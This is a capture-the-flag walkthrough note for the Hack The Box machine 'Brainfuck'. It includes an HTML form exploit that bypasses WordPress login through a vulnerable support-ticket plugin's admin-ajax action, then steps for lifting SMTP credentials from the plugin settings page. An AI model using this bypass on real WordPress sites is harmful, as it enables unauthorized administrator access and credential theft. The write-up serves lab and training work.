

# 10 - Brainfuck

# Web Server


# Certificate review (DNS and Email Records)


# Brainfuck.htb


# Super Secret Forum


# Wordpress


# Wordpress is running an older version of wp-support-plus-responsive-ticket-system and there is an exploit on exploit-db. See [05 - Enumeration.md](05%20-%20Enumeration.md) for the wpscan output


# Exploit
```html
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```


After a while this empty page is loaded 


Let's go to the index page now


On the top of the page we can see the admin bar, we are in fact logged in without providing any password


# SMTP integration

On the index page it has a post about SMTP integration, and because of that integration we can obtain the credentials from **Settings** -> **Easy WP SMTP**



Let's unhide the password by changing the **input type** from password to username or we can just grab the value while we are at it

